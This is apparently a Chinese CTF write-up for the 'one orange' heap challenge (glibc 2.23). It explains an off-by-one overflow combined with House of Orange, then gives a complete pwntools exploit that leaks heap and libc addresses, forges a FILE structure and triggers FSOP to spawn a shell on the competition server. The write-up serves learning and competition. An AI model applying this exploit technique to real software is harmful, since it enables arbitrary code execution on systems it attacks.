```yaml
---
title: bluewhale2024 - one orange 
date: 2024/5/4 00:11:00
tags:
    - heap - unsorted
    - House of Orange
    - libc2.23
---
```


{% note %}
🍊
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.23-0ubuntu11.3|

## 解题思路

没做出来...看到off by one了，但是脑子里全是House of Einherjar，后来想到利用top_chunk，
但是就是没想到可以再利用一个可控制的堆块来控制top_chunk，明明kasio才刚用过这个技巧  
我还纳闷，只能溢出0xe8字节，但是伪造堆块就得消耗至少0x10个字节，没法写全file结构体啊！

除了off by one，剩下的就是House of Orange了，看看博客就能做

后来看了官方wp，可算看懂了，画了堆块示意图如下：

![heap layout](/assets/bluewhale2024/orange.png)

收获如下：

1. 在top_chunk被放入unsorted bin时，会产生2个0x10大小的堆块
2. 调试house of orange的时候可以用`watch *(_IO_FILE*)_IO_list_all`来关注FSOP是如何运行的，
毕竟最后一次malloc完成了很多操作，不方便观察
3. 对chunk做如下操作在这个版本是合法的：
  - `p = malloc(0x118)` -> long[35], size: 0x121
  - `p[-1] = 0x101; p[0x100 / 8] = 0x21`
  - `free(p); p[-1] = 0x1f1` now `p` in unsorted bin
  - `np = malloc(0x1e8)` -> long[61], size: 0x1f1; `p == np`

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './orange'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20790)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
    elf = ELF(EXE)

    def addn(idx:int, size:int):
        sh.sendlineafter(b'4.', b'1')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'size', str(size).encode())

    def deln(idx:int) -> int:
        sh.sendlineafter(b'4.', b'2')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'delete: ')
        return int(sh.recvline(), 16)

    def edit(idx:int, cont:bytes, overflow:bool=False):
        sh.sendlineafter(b'4.', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        if overflow:
            sh.sendafter(b'cont', cont)
        else:
            sh.sendlineafter(b'cont', cont)
        
    def show(idx:int) -> bytes:
        sh.sendlineafter(b'4.', b'4')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'tent:\n')
        return sh.recvuntil(b'1.')

    addn(1, 0x3d8)
    addn(2, 0x3d8)
    addn(3, 0x3d8) # prepare for page alignment

    # Step 1, construct heap layout
    addn(4, 0x1f8)
    addn(5, 0xe8)

    # Step 2, set size of chunk 4 from 0x201 to 0x2f1
    # overlapping chunk 5
    edit(3, b'0'*0x3d8 + b'\xf1', True)

    # Step 3, free chunk 4 to deceive top_chunk down to chunk 4
    heapBase = deln(4) - 0xbb0
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    # Step 4, shrink top_chunk to make top_chunk in control (editable in chunk 5)
    # top_chunk.size -= 0x210
    addn(4, 0x208)

    # Step 5, mod top_chunk size from 0x20251 to 0x251
    edit(5, p64(0) + p64(0x251))

    # Step 6, malloc a chunk larger than 0x251 to sweep old top_chunk into unsorted bin
    # now in chunk 5, fd contains libc
    addn(6, 0x300)
    val = show(5)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(val[0x10:0x16] + b'\0\0') - 0x58 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(GOLD_TEXT(f'leak libcBase: {hex(libcBase)}'))
    ioListAll = libcBase + libc.symbols['_IO_list_all']
    system = libcBase + libc.symbols['system']

    file = FileStructure()
    file.flags = u64(b'/bin/sh\0')
    file._IO_read_ptr = 0x61
    file._IO_read_base = ioListAll - 0x10
    file._IO_write_ptr = 1
    file.vtable = heapBase + 0x10

    # Step 7, force file structure and set old top_chunk size from 0x231 to 0x61
    # in this case, old top_chunk falls in small_bin
    # and force vtable by the way
    edit(5, bytes(file))
    edit(1, p64(0)*3 + p64(system))

    # Step 8, malloc a chunk larger than 0x60 to trigger FSOP
    addn(7, 0x100)

    sh.clean()
    sh.interactive()
```

## 参考文献

[House of Orange](https://www.cnblogs.com/ZIKH26/articles/16712469.html)
